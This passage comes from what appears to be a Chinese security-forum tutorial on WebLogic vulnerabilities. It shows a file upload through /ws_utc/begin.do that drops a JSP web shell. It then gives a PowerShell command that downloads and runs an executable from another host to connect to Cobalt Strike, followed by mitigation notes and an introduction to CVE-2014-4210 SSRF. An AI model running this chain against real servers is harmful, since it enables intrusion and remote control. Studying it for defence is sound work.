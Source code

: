 > 2.测试 /ws\_utc/begin.do

大致方法和上面的url一样，这里需要注意的是

```php
1./ws_utc/begin.do使用的工作目录是在/ws_utc/config.do中设置的Work Home Dir；
2.利用需要知道部署应用的web目录；
3.在生产模式下不开启，后台开启后，需要认证。
```

![image-20210814175127172](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-ac0f02701b115d096e40068d87dee651ffaf505e.png)

![image-20210814180116136](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-63632720aa81e2584b6ecb152dd5adb92091a401.png)

报错可以忽略，返回包中已有文件路径

```php
/css/upload/RS_Upload_2021-08-14_17-59-33_143/import_file_name_zcccmd.jsp
```

![image-20210814180054350](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-b19c1138079385cf361126c36fe89684da33d1ce.png)

访问路径，成功访问，powershell上线cs

```php
http://192.168.0.105:7001/ws_utc/css/upload/RS_Upload_2021-08-14_17-59-33_143/import_file_name_zcccmd.jsp
```

![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-caf046de760c2ef5950a2e2a7191f0fb0e35af63.png)

```php
powershell -Command (new-object System.Net.WebClient).DownloadFile('http://192.168.0.108/zcc.exe','zcc.exe');start-process zcc.exe
```

![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-20f88af4e6e7f25a244379a753f091d25a913124.png)

![image-20210814181718937](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-ec7c95debb4a3b47e2c74142a98036e3e312f36e.png)

##### 安全防护

1.启动生产模式后Config.do页面登录授权后才可访问

2.升级到最新版本，目前生产模式下已取消这两处上传文件的地方。

#### 6.Weblogic SSRF漏洞（CVE-2014-4210）

##### 漏洞简介

Oracle WebLogic Web Server既可以被外部主机访问，同时也允许访问内部主机。比如有一个jsp页面SearchPublicReqistries.jsp，我们可以利用它进行攻击，未经授权通过weblogic server连接任意主机的任意TCP 端口，可以能冗长的响应来推断在此端口上是否有服务在监听此端口，进而攻击内网中redis、fastcgi等脆弱组件。

##### 影响版本

```php
10.0.2.0
10.3.6.0
```
